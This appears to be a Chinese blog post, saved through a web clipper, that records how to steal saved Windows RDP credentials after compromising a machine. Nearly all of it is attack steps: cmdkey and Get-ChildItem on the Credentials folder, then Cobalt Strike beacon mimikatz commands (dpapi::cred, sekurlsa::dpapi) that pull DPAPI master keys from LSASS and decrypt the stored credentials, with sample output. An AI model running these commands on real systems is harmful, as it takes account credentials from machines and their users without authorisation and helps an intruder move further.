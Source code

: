 \> 本文由 \[简悦 SimpRead\](http://ksria.com/simpread/) 转码， 原文地址 \[www.cnblogs.com\](https://www.cnblogs.com/-mo-/p/12210302.html)

这里只做记录，不做详解

Windows 保存 RDP 凭据的目录是：

```
C:\\Users\\用户名\\AppData\\Local\\Microsoft\\Credentials


```

可通过命令行获取，执行:

```
cmdkey /list或powerpick Get-ChildItem C:\\Users\\Administrator\\AppData\\Local\\Microsoft\\Credentials\\ -Force


```

![](https://img2018.cnblogs.com/blog/1561366/202001/1561366-20200118212509938-579453874.png)

注意: cmdkey /list 命令务必在 Session 会话下执行，system 下执行无结果。

使用 cobalt strike 中的 mimikatz 可以获取一部分接下来要用到的 masterkey 和 pbData :

```
mimikatz dpapi::cred /in:C:\\Users\\USERNAME\\AppData\\Local\\Microsoft\\Credentials\\SESSIONID


```

输出应类似:

```
\*\*BLOB\*\*
  dwVersion : 00000001 - 1
  guidProvider : {df9d8cd0-1501-11d1-8c7a-00c04fc297eb}
  dwMasterKeyVersion : 00000001 - 1
  guidMasterKey : {0785cf41-0f53-4be7-bc8b-6cb33b4bb102}
  dwFlags : 20000000 - 536870912 (system ; )
  dwDescriptionLen : 00000012 - 18
  szDescription : 本地凭据数据

  algCrypt : 00006610 - 26128 (CALG\_AES\_256)
  dwAlgCryptLen : 00000100 - 256
  dwSaltLen : 00000020 - 32
  pbSalt : 726d845b8a4eba29875\*\*\*\*10659ec2d5e210a48f
  dwHmacKeyLen : 00000000 - 0
  pbHmackKey :
  algHash : 0000800e - 32782 (CALG\_SHA\_512)
  dwAlgHashLen : 00000200 - 512
  dwHmac2KeyLen : 00000020 - 32
  pbHmack2Key : cda4760ed3fb1c7874\*\*\*\*28973f5b5b403fe31f233
  dwDataLen : 000000c0 - 192
  pbData : d268f81c64a3867cd7e96d99578295ea55a47fcaad5f7dd6678989117fc565906cc5a8bfd37137171302b34611ba5\*\*\*\*e0b94ae399f9883cf80050f0972693d72b35a9a90918a06d
  dwSignLen : 00000040 - 64
  pbSign : 63239d3169c99fd82404c0e230\*\*\*\*37504cfa332bea4dca0655


```

需要关注的是 guidMasterKey 、 pbData ， pbData 是我们要解密的数据， guidMasterKey 是解密所需要的密钥。

这里 LSASS 已经在其缓存中存有这个 key 因此我们可以使用 SeDebugPrivilege 获取:

```
beacon> mimikatz !sekurlsa::dpapi

\[00000001\]
     \* GUID : {0785cf41-0f53-4be7-bc8b-6cb33b4bb102}
     \* Time : 2020/1/3 8:05:02
     \* MasterKey : 02b598c2252fa5d8f7fcd\*\*\*7737644186223f44cb7d958148
     \* sha1(key) : 3e6dc57a0fe\*\*\*\*a902cfaf617b1322
     \[00000002\]
     \* GUID : {edcb491a-91d7-4d98-a714-8bc60254179f}
     \* Time : 2020/1/3 8:05:02
     \* MasterKey : c17a4aa87e9848e9f46c8ca81330\*\*\*79381103f4137d3d97fe202
     \* sha1(key) : 5e1b3eb1152d3\*\*\*\*6d3d6f90aaeb



```

然后将凭据保存到本地，执行:

```
mimikatz "dpapi::cred /in:C:\\Users\\USERNAME\\Desktop\\test\\SESSION /masterkey:对应的GUID key"


```

![](https://img2018.cnblogs.com/blog/1561366/202001/1561366-20200118212833644-569197071.png)